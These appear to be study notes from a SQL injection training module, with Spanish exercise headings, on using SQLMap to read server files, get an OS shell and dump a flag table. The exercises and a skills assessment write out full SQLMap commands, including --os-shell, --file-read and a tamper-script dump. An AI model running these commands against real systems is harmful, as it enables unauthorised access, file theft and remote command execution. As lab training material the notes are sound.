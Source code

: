 ```bash
sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E
```

SQLMap will prompt for details such as the web application language and server directory. Defaults can be selected automatically by adding `--batch`.

---

## Summary

SQLMap's OS exploitation capabilities include:

- **File Read/Write**: Exploiting SQLi to access or write files on the target.
- **Privilege Checks**: Verifying DBA privileges for advanced operations.
- **Command Execution**: Dropping an interactive shell or uploading scripts for remote code execution.

With proper privileges, these tools make SQLMap a powerful option for testing and exploiting SQL Injection vulnerabilities.


Ejercicio13
  Try to use SQLMap to read the file "/var/www/html/flag.txt".
    sqlmap -r Case12.txt --file-read '/var/www/html/flag.txt'

Ejercicio14
  Use SQLMap to get an interactive OS shell on the remote host and try to find another flag within the host.
    sqlmap -r Case12.txt --os-shell --threads 10 --batch
    ls /
    cat /flag,txt

---


# Skills Assessment

## Objective
You are tasked with identifying an SQL Injection (SQLi) vulnerability in a web application and exploiting it using SQLMap. The goal is to retrieve the hidden flag and submit it to complete the module.

What's the contents of table final_flag?
  buscar el mejor sitio para hacer el intercept con burpsuite --> shop 
  sqlmap -r Case13.txt --threads=10 -T final_flag --dump --batch --tamper=between

    
